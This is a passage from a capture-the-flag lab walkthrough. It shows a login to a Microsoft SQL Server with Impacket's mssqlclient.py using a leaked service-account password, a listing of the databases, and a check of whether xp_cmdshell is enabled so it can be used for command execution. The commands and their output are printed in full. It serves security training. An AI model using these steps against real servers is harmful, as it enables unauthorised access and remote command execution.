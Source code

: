 ## Microsoft SQL Server Access and Exploitation

With the credentials discovered from the SMB share (`sql_svc` and password `M3g4c0rp123`), we attempt to connect to the Microsoft SQL Server running on port `1433`. Using the `mssqlclient.py` tool from Impacket, we connect with Windows authentication.

```
mssqlclient.py sql_svc@10.129.188.82 -windows-auth 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

After entering the password, the connection is successful, and we gain access to the SQL Server shell. At this point, we can interact with the database directly. First, we list the available databases to understand what data we might have access to.

```
SQL (ARCHETYPE\sql_svc  dbo@master)> select name from sys.databases

name     
------   
master   
tempdb   
model    
msdb     
```

The server hosts standard system databases like `master`, `tempdb`, `model`, and `msdb`. Though no user databases are immediately visible, having access to the SQL Server with this user is already a powerful position.

## Checking and Enabling `xp_cmdshell` for Command Execution

One powerful feature in Microsoft SQL Server is the extended stored procedure `xp_cmdshell`, which allows execution of arbitrary Windows commands directly through SQL queries. This can be a critical post-exploitation tool. First, let’s check if `xp_cmdshell` is enabled.

```
EXEC sp_configure 'show advanced options', 1;
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell';
name          minimum   maximum   config_value   run_value   
-----------   -------   -------   ------------   ---------   
xp_cmdshell         0         1              0           0 
```
